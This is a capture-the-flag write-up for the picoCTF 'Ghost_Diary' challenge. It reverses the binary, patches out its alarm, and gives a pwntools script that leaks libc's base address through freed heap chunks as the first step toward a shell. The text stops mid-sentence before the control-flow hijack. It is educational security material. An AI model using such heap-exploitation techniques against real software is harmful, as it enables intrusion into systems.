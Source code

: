 # Ghost_Diary (pwn, pico, heap-exploitation, use-after-free, malloc_hook)

### Notes
- binary given
- libc 2.27 with checks enabled

### Enumeration
This is first hard task without source code provided. Let' start with quick enumeration:

```bash
$ file ghostdiary
ghostdiary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=da28ccb1f0dd0767b00267e07886470347987ce2, stripped
```

Binary is stripped meaning there are no symbols like `main` in it. This will make reverse engineering part way harder. As objdump was quite large let's first run a program under Ghidra to get a better understanding of what it does. Thanks to puts and printfs it is quite easy to recover what program does. 

Here is a simplified version of it.

```c

uint sizes[20];
char *pages[20];

void create_new_page() {
    uint idx = 0;
    while (idx < 20 && pages[idx]) ++idx;
    if (idx == 20) {
        return;
    }
    
    uint size;
    scanf("%d", size);
    if ((0xf1 < size && size < 0x10f) || (size > 0x1e1)) return;
    pages[idx] = malloc(size);
    sizes[idx] = size;
}

void write_on_page() {
    uint idx, size;
    scanf("%d", idx);
    page = pages[idx];
    if (!page) return;
    size = sizes[idx];
    read(stdin, page, size);
    page[size] = '\x00';
}

void read_page() {
    uint idx;
    scanf("%d", idx);
    page = pages[idx];
    if (!page) return;
    printf("%s", page);
}

void destroy_page() {
    uint idx;
    scanf("%d", idx);
    page = pages[idx];
    if (!page) return;
    free(page);
    pages[idx] = 0;
}

int main() {
    alarm(0x3c);
    signal(0xe, exit);

    while (1) {
        char cmd = getchar()
        switch (cmd) {
            case 0:
                create_new_page(); // New page in diary
                break;
            case 1:
                write_on_page(); // Talk to ghost
                break;
            case 2:
                read_page(); // Listen to ghost
                break;
            case 3:
                destroy_page(); // Burn the page
                break;
            case 4:
                exit(0); // Go to sleep
        }
    }
}
```

Before moving to vulnerabilities let's take care of `alarm + signal` function as it makes debuging a nightmare. The program exits after 0x3c seconds. Let's patch the binary under hexedit overwriting alarm instruction with nops.

```bash
$ objdump -d -M intel ghostdiary | grep -A1 -B2 alarm
     ff3:	e8 18 f9 ff ff       	call   910 <setvbuf@plt>
     ff8:	bf 3c 00 00 00       	mov    edi,0x3c
     ffd:	e8 be f8 ff ff       	call   8c0 <alarm@plt>
    1002:	48 8d 35 69 ff ff ff 	lea    rsi,[rip+0xffffffffffffff69]
$ objdump -d -M intel ghostdiary-patched | grep -A5 -B2 ffd
     ff3:	e8 18 f9 ff ff       	call   910 <setvbuf@plt>
     ff8:	bf 3c 00 00 00       	mov    edi,0x3c
     ffd:	90                   	nop
     ffe:	90                   	nop
     fff:	90                   	nop
    1000:	90                   	nop
    1001:	90                   	nop
    1002:	48 8d 35 69 ff ff ff 	lea    rsi,[rip+0xffffffffffffff69]
```

Now as we have dealed with obscurity let's check the program real protections:

```bash
$ checksec ghostdiary
[*] './ghostdiary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


## Leaking libc_base address

Uh.. binary was compiled as Position Independant Executable, meaning we perhaps need a way to leak some address. The goal is to obtain a shell, so we need to find a way to control the instruction pointer.

Ok, now let's spot some vulnerabilities. We need something to play with!

First we can spot that the memory is not being cleaned before returning it to user. For example let's see how we can leak a libc address.

This is my python script which I wrote using pwntools for retriving libc_base address.

```python

# Constans found by manual enumeration
SMALL_BIN_OFFSET = 0x3ebf10 # I will show how to find it in a sec

def get_libc_base():
    # 7 chunk for tcache + 2 chunks for small bin list + 1 chunk to prevent from consolidation with top chunk
    for i in range(0, 10):
        allocate_page(psize(0x134))

    # Fill tchace with pages [0-6] + small bin with pages [7-8]. Page with idx.7 will contain libc small bin address in fd field.
    for i in range(0, 9):
        free_page(page(i))

    # As tcache is a LIFO, the chunk containing address of page 0 as fd field has now index 5.
    # Chunk containing libc address is now indexed as page 7
    for i in range(0, 9):
        allocate_page(psize(0x134))

    small_bin_addr = read_page(b'7')[:8]
    pad_len = 8 - len(small_bin_addr)
    small_bin_addr = u64(small_bin_addr + pad_len * b'\x00') # pad as printf string won't print null bytes
    log.info("Small_bin_addr: " + hex(small_bin_addr))

    libc_base = small_bin_addr - SMALL_BIN_OFFSET
    log.info("Libc base: " + hex(libc_base))
```

How can we get SMALL_BIN_OFFSET? Well when debuging I've used amazing pwntools feature to attach a process to gdb.

```python
gdb.attach(p)
raw_input(b'Continue and press ENTER to send payload')
get_libc_base()
exit_program() # to breakpoint on exit_group
```

This will open a new terminal. Normaly we would then set a breakpoint on `main` function and continue. But as we don't have any symbols avaible we need to find a way around. I've decided to use peda instruction `catch syscall 231` to breakpoint on exit_group syscall. This way we can examine the heap right after get_libc_base() function.

This let's us find SMALL_BIN_OFFSET. 
Our script will find small_bin_addr:

```bash
$ python3 exp.py
[+] Starting local process './ghostdiary': pid 3362
[*] running in new terminal: /usr/bin/gdb -q  "./ghostdiary" 3362 -x "/tmp/pwnivztx7hm.gdb"
[+] Waiting for debugger: Done
Continue and press ENTER to send payload
[*] Small_bin_addr: 0x7fcdd84dcf10
```

While our gdb will breakpoint on exit_group syscall. We can now examine the libc_base:

```
Catchpoint 1 (call to syscall exit_group), 0x00007fcdd81d5e06 in __GI__exit (
    status=0x0) at ../sysdeps/unix/sysv/linux/_exit.c:31
31	../sysdeps/unix/sysv/linux/_exit.c: No such file or directory.
gdb-peda$ i proc mappings
process 3417
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      [...]
      0x559eeca32000     0x559eeca53000    0x21000        0x0 [heap]
      0x7fcdd80f1000     0x7fcdd82d8000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7fcdd82d8000     0x7fcdd84d8000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7fcdd84d8000     0x7fcdd84dc000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7fcdd84dc000     0x7fcdd84de000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7fcdd84de000     0x7fcdd84e2000     0x4000        0x0 
      0x7fcdd84e2000     0x7fcdd8509000    0x27000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7fcdd86eb000     0x7fcdd86ed000     0x2000        0x0 
      0x7fcdd8709000     0x7fcdd870a000     0x1000    0x27000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7fcdd870a000     0x7fcdd870b000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.27.so
      [...]
```

So libc was loaded under 0x7fcdd80f1000 and the small_bin_addr is 0x7fcdd84dcf10. This means that SMALL_BIN_OFFSET = 0x7fcdd84dcf10 - 0x7fcdd80f1000 = 0x3ebf10

## Taking control over instruction pointer
Ok, so now when we can find a libc_base address we just have to take control over instruction pointer to call `execve` from libc.

Let's think for a bit on how we would like to call it. We don't have an address of GOT table, so we need to overwrite something else. After a while I found a w

Note that the program was linked with glibc 2.27, meaning the `unlink macro` exploit won't work as we would fail on `corrupted double-linked list` (P->fd->bk == P and P->bk->fd == P, where P is a chunk being unlinked).
